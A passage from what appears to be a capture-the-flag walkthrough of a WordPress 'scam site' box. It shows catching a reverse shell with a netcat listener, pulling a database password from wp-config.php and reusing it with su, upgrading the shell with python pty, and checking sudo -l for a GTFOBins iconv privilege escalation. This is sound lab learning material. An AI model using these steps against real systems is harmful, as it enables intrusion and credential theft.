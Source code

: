 now :

```
bash shell.sh
```

```
nc -lvnp 4444
```

<img width="1064" height="505" alt="image" src="https://github.com/user-attachments/assets/e4b2a199-5e2c-459d-8e61-49059eb178de" />

in ``wordpress`` dir found ``wp-config.php``

<img width="638" height="417" alt="image" src="https://github.com/user-attachments/assets/3a703353-bda9-4b53-9455-694ace2232a2" />

in it found ``password``

<img width="911" height="605" alt="image" src="https://github.com/user-attachments/assets/a5810524-1eef-44fc-9822-725c17a110c2" />


```
ImAScammerLOL!123!
```

on this server there is only two users ``root`` & ``scamsite``

now try to switch to ``scamsite`` user:

```
su - scamsite
```

but there is problem 

<img width="980" height="63" alt="image" src="https://github.com/user-attachments/assets/a8c353ba-1ccc-4afc-ac3a-ee36eda8fee2" />

to slove this 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<img width="989" height="142" alt="image" src="https://github.com/user-attachments/assets/342d7101-d9bb-4a0c-ac89-4bbbd35be67d" />


good now prevesc

```
sudo -l
```

<img width="946" height="161" alt="image" src="https://github.com/user-attachments/assets/47e101df-3db1-4c67-a48f-71ea05693e47" />


## [gtfobins](https://gtfobins.github.io/gtfobins/iconv/)

<img width="1031" height="227" alt="image" src="https://github.com/user-attachments/assets/c095dee9-b9db-4a64-b375-b7382a522df3" />
